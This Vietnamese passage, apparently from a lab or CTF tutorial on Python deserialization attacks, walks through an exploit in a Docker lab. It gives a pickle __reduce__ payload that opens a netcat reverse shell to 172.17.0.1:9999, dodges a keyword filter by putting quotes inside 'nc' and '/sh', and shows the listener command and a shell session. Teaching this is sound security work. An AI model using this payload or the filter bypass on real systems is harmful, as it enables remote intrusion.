 Lệnh `ping` đã được thực thi thành công, chứng minh rằng chúng ta đã khai thác thành công lỗ hổng **RCE** qua **deserialization**.

#### **5. Tấn công trên Target (Máy chủ Thực tế)**
Bây giờ, để thực hiện một **reverse shell**, ta sẽ thay đổi payload của mình để sử dụng một **Netcat reverse shell**. Tuy nhiên, chúng ta cần vượt qua bộ lọc từ khóa, vì `nc`, `-nv`, và `/sh` đều bị cấm.

Một trong những cách đơn giản là **chèn dấu nháy đơn** vào các từ khóa bị lọc. Bộ lọc sẽ không nhận ra các từ này nữa, và lệnh vẫn có thể được thực thi.

Ví dụ:

```python
class RCE:
    def __reduce__(self):
        return os.system, ("n''c -nv 172.17.0.1 9999 -e /bin/s''h",)
```

Kết quả base64 sẽ là:

```bash
gASVLwAAAAAAAACMBXBvc2l4lIwGc3lzdGVt...SNIP...SFlFKULg==
```

#### **6. Nhận Reverse Shell**
Bây giờ, chúng ta có thể bắt đầu một listener **Netcat** trên máy tấn công:

```bash
nc -nvlp 9999
```

Sau đó, thay đổi giá trị cookie thành chuỗi base64 mà ta đã tạo ra và tải lại trang web. Nếu tấn công thành công, chúng ta sẽ nhận được một **reverse shell**.

Output của Netcat listener có thể giống như sau:

```bash
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:32823.
$ ls -l
total 56
-rw-r--r--    1 root     root
...
-rw-r--r--    1 root     root 184 Oct 11 12:55 Dockerfile
```

Chúng ta đã thành công trong việc khai thác lỗ hổng và có quyền truy cập vào hệ thống thông qua reverse shell.

---

# 11. Công Cụ trong Tấn Công Deserialization Python

